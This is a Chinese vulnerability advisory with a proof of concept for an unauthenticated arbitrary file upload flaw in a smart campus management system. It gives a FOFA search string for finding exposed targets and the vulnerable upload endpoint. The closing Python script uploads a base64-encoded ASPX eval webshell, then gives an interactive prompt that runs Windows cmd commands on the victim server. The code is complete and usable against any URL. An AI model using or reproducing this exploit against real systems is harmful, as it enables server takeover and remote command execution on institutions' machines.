



# 智慧校园管理系统 前台任意文件上传漏洞

## 漏洞描述

智慧校园管理系统前台注册页面存在文件上传，由于没有对上传的文件进行审查导致可上传恶意文件控制服务器

## 漏洞影响

> [!NOTE]
>
> 智慧校园管理系统

## FOFA

> [!NOTE]
>
> body="DC_Login/QYSignUp"

## 漏洞复现

登录页面如下，只要存在企业用户注册就可能出现漏洞

> [!NOTE]
>
> 注意下部分页面没有注册点击位置，但是存在  /DC_OA_WJG/Upload 上传接口




这个地方的上传附件允许了任意文件上传，包括 aspx木马，上传后还会返回 webshell地址




上传的是冰蝎木马，直接连接



## 漏洞利用POC

```python
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 智慧校园管理系统                                            \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/DC_OA_WJG/Upload"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryNxqOHxbHqt9mf7s5",
    }
    data = base64.b64decode("LS0tLS0tV2ViS2l0Rm9ybUJvdW5kYXJ5TnhxT0h4YkhxdDltZjdzNQpDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9InVwRmlsZSI7IGZpbGVuYW1lPSJQZWlRaS5hc3B4IgpDb250ZW50LVR5cGU6IGFwcGxpY2F0aW9uL29jdGV0LXN0cmVhbQoKPHNjcmlwdCBsYW5ndWFnZT0iSlNjcmlwdCIgcnVuYXQ9InNlcnZlciI+ZnVuY3Rpb24gUGFnZV9Mb2FkKCl7ZXZhbChSZXF1ZXN0WyJQZWlRaSJdLCJ1bnNhZmUiKTt9PC9zY3JpcHQ+CgotLS0tLS1XZWJLaXRGb3JtQm91bmRhcnlOeHFPSHhiSHF0OW1mN3M1LS0=")
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/DC_OA_WJG/Upload 尝试上传木马..... \033[0m".format(target_url))
        if 'true' in response.text and 'path' in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 成功上传 Webshell文件\033[0m".format(target_url))
            webshell_path = re.findall(r'"path":"(.*?)"', response.text)[0]
            print("\033[32m[o] Webshell文件地址: {}/{} \033[0m".format(target_url, webshell_path))
            while True:
                Cmd = str(input("\033[35mCmd >>> \033[0m"))
                cmd_url = target_url + "/" + webshell_path + "?PeiQi=Response.Write(new%20ActiveXObject(%22WSCRIPT.Shell%22).exec(%22cmd%20/c%20{}%22).StdOut.ReadAll());".format(Cmd)
                requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
                response = requests.get(url=cmd_url, data=data, headers=headers, verify=False, timeout=5)
                print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] 目标 {} 上传Webshell文件失败\033[0m".format(target_url))
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

